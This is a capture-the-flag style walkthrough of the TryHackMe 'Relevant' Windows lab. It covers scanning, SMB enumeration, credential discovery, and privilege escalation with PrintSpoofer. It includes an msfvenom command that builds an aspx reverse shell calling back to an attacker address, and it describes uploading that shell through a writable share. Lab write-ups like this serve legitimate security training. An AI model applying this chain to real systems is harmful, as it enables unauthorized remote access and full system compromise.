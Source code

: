 ```yaml
---
title: Tryhackme - Relevant
author: Rhovelionz
date: 2022-09-25 07:21:00 +0700
categories: [Tryhackme]
tags: [Samba, SMB, IIS, Psexec, PrintSpoofer, Apppool, test]
image: /assets/img/Post/Relevant.jpeg

---
```


>   **Any actions and or activities related to the material contained within this Website is solely your responsibility. This site contains materials that can be potentially damaging or dangerous. If you do not fully understand something on this site, then GO OUT OF HERE! Refer to the laws in your province/country before accessing, using,or in any other way utilizing these materials.These materials are for educational and research purposes only.**


# **<span style='color:#ff5555'>Summary</span>**
***
- SMB share has access to write
- Validate users
- Transfer payload to the SMB share
- Found SEimpersonate token is enabled
- Exploit it with PrintSpoofer


## **<span style='color:#ff5555'>Port Scan</span>**
***

```terminal
root@rhovelionz:~/THM/Relevant# nmap -A -T4 10.10.213.110
Starting Nmap 7.80 ( https://nmap.org ) at 2022-09-25 11:01 WIB
Stats: 0:01:09 elapsed; 0 hosts completed (1 up), 1 undergoing Service Scan
Service scan Timing: About 66.67% done; ETC: 12:41 (0:00:30 remaining)
Nmap scan report for 10.10.213.110
Host is up (0.11s latency).
Not shown: 997 filtered ports
PORT     STATE SERVICE        VERSION
135/tcp  open  msrpc          Microsoft Windows RPC
139/tcp  open  netbios-ssn    Microsoft Windows netbios-ssn
3389/tcp open  ms-wbt-server?
| rdp-ntlm-info: 
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2022-09-25T07:11:01+00:00
| ssl-cert: Subject: commonName=Relevant
| Not valid before: 2020-07-24T23:16:08
|_Not valid after:  2021-01-23T23:16:08
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2016|2012|2008 (91%)
OS CPE: cpe:/o:microsoft:windows_server_2016 cpe:/o:microsoft:windows_server_2012 cpe:/o:microsoft:windows_server_2008:r2
Aggressive OS guesses: Microsoft Windows Server 2016 (91%), Microsoft Windows Server 2012 (85%), Microsoft Windows Server 2012 or Windows Server 2012 R2 (85%), Microsoft Windows Server 2012 R2 (85%), Microsoft Windows Server 2008 R2 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

```terminal
PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2022-09-25T07:19:15+00:00
| ssl-cert: Subject: commonName=Relevant
| Not valid before: 2020-07-24T23:16:08
|_Not valid after:  2021-01-23T23:16:08
|_ssl-date: 2020-09-19T07:19:56+00:00; 0s from scanner time.
49663/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
```

## **<span style='color:#ff5555'>Website</span>**
***

The relevant website only shows default IIS windows server's page.

![]({{ "/images/thm/Relevant/website.png" | relative_url }})

## **<span style='color:#ff5555'>Fuzzing</span>**
***

Running `gobuster` on the website with unfortunate output.

![]({{ "/images/thm/Relevant/gobuster1.png" | relative_url }})

Since it's windows machine, we need to enumerate SMB based on nmap's result.

## **<span style='color:#ff5555'>Enumerating SMB</span>**
***

Using SMBClient to open SMB shares on the server.

![]({{ "/images/thm/Relevant/smb1.png" | relative_url }})

It shows the **nt4wrksv** share enabled, the next step is to connect with **nt4wrksv** and find out what we can get from it.

![]({{ "/images/thm/Relevant/smb2.png" | relative_url }})

Download the password.txt file stored in it.

The file consists of two base64 encoded credentials

![]({{ "/images/thm/Relevant/encoded1.png" | relative_url }})

After decoding the base64, it reveals credentials for Bob and Bill

![]({{ "/images/thm/Relevant/cred1.png" | relative_url }})

Having these credentials, we can attempt to use it to the target, using **psexec** to check which users is valid.

![]({{ "/images/thm/Relevant/bob.png" | relative_url }})

![]({{ "/images/thm/Relevant/bill.png" | relative_url }})


## **<span style='color:#ff5555'>Special Port</span>**
***

Based on nmap's scan, we also have open port on 49663 which running **Microsoft HTTPAPI httpd**

Running `gobuster` against port 49663 to check subdirectories in it.

![]({{ "/images/thm/Relevant/gobuster2.png" | relative_url }})

To validate that we are on the right path, try add passwords.txt that we found on SMB before.

![]({{ "/images/thm/Relevant/passwordstxt.png" | relative_url }})

It shows the same file that we found in SMB share, that means anything we put on SMB shares because we have write access, and knowing that IIS usually accept an aspx file, we need to craft it and we can download it on the webserver and gain access.

Craft the payload:
```terminal
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.17.62.230 LPORT=1337 -f aspx -o rhovelionz.aspx
```
Upload it to the smb share

![]({{ "/images/thm/Relevant/uploadtosmbshare.png" | relative_url }})

We need to start netcat listener and open the link on the browser, and we are in.

![]({{ "/images/thm/Relevant/netcat2.png" | relative_url }})

## **<span style='color:#ff5555'>Escalate to Administrator</span>**
***

There is an exploit to abuse SeImpersonatePrivilege token that is enabled, that means token impersonation could be used to escalate to the **administrator**.

![]({{ "/images/thm/Relevant/seimpersonate.png" | relative_url }})

We will be using `PrintSpoofer`, download it and tranfer the exploit file via SMB share.

![]({{ "/images/thm/Relevant/uploadprintspoofer.png" | relative_url }})

Executing the exploit with command with -i to interact with new process and -c cmd to run CMD after execution.

![]({{ "/images/thm/Relevant/execexploit.png" | relative_url }})

***

![]({{ "/images/mandatory/pwned.png" | relative_url }})

> [Relevant - Tryhackme](https://tryhackme.com/room/relevant)

